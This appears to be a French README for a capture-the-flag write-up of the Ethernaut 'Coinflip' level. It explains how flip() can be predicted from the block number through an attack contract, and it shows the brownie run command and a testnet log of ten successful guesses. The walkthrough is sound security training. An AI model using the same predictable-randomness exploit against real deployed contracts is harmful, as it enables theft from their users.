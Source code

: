 # Coinflip

## Objectif
L'objectif de ce challenge est de 'deviner' correctement 10 fois le résultat de coinflip.

## Deviner le résultat de coinflip

La méthode [`flip` du contrat](contracts/coinflip.sol#17) utilise la variable `lastHash` pour éviter que `flip` ne soit appellé plusieurs fois pour le même bloc.

La valeur résultat de `flip` étant seulement dépendant du numéro de bloc de la transaction, il est possible de calculer ce résultat par un autre contrat et faire l'appel à `flip` ensuite.

La méthode de calcul a été copié dans la [méthode `hack` du contrat `CoinFlipAttack`](contracts/coinflipAttack.sol#16)

Une fois le calcul effectué, l'appel à[`flip`](contracts/coinflipAttack.sol#22) est réalisé.


## Exécution du script d'attaque
Afin de pouvoir agir sur la chaine `goerli`, il est nécessaire de créer un fichier `.env` contenant la clé de projet [Infura](https://infura.io/) et la valeur de la clé privée du compte utilisé pour le challenge:
```shell
export WEB3_INFURA_PROJECT_ID='AABBCCDD.......'
export PRIVATE_KEY='0xDEADBEEFCACA...'
```

En utilisant la console sur le site d'[ethernaut openzeppelin](https://ethernaut.openzeppelin.com/level/0xae9677ff69efB3C1B9559C8F2A9ED6a2212148e3) on récupère l'adresse du contrat déployé pour lancer l'attaque ainsi:
```bash
$ brownie run ./scripts/attack.py main "0x8D19ac38476b28CBA1D155ded3f04d155906F62C" --network goerli
```
```console
Brownie v1.19.0 - Python development framework for Ethereum

CoinflipProject is the active project.

Running 'scripts/attack.py::main'...
Target contract: 0x8D19ac38476b28CBA1D155ded3f04d155906F62C
Transaction sent: 0x297b8ac2d8bfd2e4e5cef96fcbd2a39de520c4b58a8a8d8955fd54705f195b5e
  Gas price: 61.515771471 gwei   Gas limit: 281425   Nonce: 23
  CoinFlipAttack.constructor confirmed   Block: 7838826   Gas used: 255841 (90.91%)
  CoinFlipAttack deployed at: 0xdFad5f7FCdCb2C787590B7FCD30763EC6562863D

Attack address: 0xdFad5f7FCdCb2C787590B7FCD30763EC6562863D
Transaction sent: 0x45dbab8624d226db9b3f885841d326ae124f19356efe1e9c6a06152307a4438a
  Gas price: 60.020237243 gwei   Gas limit: 90000   Nonce: 24
  CoinFlipAttack.hack confirmed   Block: 7838828   Gas used: 75975 (84.42%)

Transaction sent: 0x49d393a4675843c4c339b79141e1a9fafefbc1f2e9bc96f653e4f8b8f81b473e
  Gas price: 52.332410145 gwei   Gas limit: 90000   Nonce: 25
  CoinFlipAttack.hack confirmed   Block: 7838829   Gas used: 41775 (46.42%)

Transaction sent: 0x09c52a15e907c74f7a139b1da85df62afe6dc0542078bccd0cba2003e3473c2e
  Gas price: 52.177373665 gwei   Gas limit: 90000   Nonce: 26
  CoinFlipAttack.hack confirmed   Block: 7838849   Gas used: 41775 (46.42%)

Transaction sent: 0x62af571b13b64045d8144d39f772f19e2d9528f3444902ab571da924fe485adf
  Gas price: 52.085534483 gwei   Gas limit: 90000   Nonce: 27
  CoinFlipAttack.hack confirmed   Block: 7838853   Gas used: 41755 (46.39%)

Transaction sent: 0xcaaa987453e5ce4b19bd610b878d9beeb592c48e69938a99688fa94ed72db82d
  Gas price: 49.137453031 gwei   Gas limit: 90000   Nonce: 28
  CoinFlipAttack.hack confirmed   Block: 7838902   Gas used: 41775 (46.42%)

Transaction sent: 0x16030db248735a00d8539b3cf83ff6cdbcf2510fa109a3a8cc15cfde1f3b3eb2
  Gas price: 48.195478172 gwei   Gas limit: 90000   Nonce: 29
  CoinFlipAttack.hack confirmed   Block: 7838918   Gas used: 41775 (46.42%)

Transaction sent: 0x7d1d57d124715e37642c597dd083437ddb8b66e278287431527bcd6e09978c5e
  Gas price: 46.027368937 gwei   Gas limit: 90000   Nonce: 30
  CoinFlipAttack.hack confirmed   Block: 7838921   Gas used: 41755 (46.39%)

Transaction sent: 0x7cc3679df9f22bab113aa9350fbb515d2606e9a2c76e52f930f66ce4d1063439
  Gas price: 44.92033064 gwei   Gas limit: 90000   Nonce: 31
  CoinFlipAttack.hack confirmed   Block: 7838927   Gas used: 41755 (46.39%)

Transaction sent: 0xe404363ebbc3c15b749bfb6e1c465a00add12fa22a51ac681338ac39443b96bf
  Gas price: 44.710439045 gwei   Gas limit: 90000   Nonce: 32
  CoinFlipAttack.hack confirmed   Block: 7838929   Gas used: 41775 (46.42%)

Transaction sent: 0x9524e20cb0e4e4358e9164f22d612b011532028143f2d6d80432e353088af784
  Gas price: 44.829616695 gwei   Gas limit: 90000   Nonce: 33
  CoinFlipAttack.hack confirmed   Block: 7838931   Gas used: 41755 (46.39%)

Nb ok: 10
Transaction sent: 0xb39eed9067c3b7eba73a4030f8eda17df99f005e13075110d9ac2f1c6b6e35f0
  Gas price: 45.014987221 gwei   Gas limit: 28821   Nonce: 34
  CoinFlipAttack.destroy confirmed   Block: 7838933   Gas used: 26201 (90.91%)

```


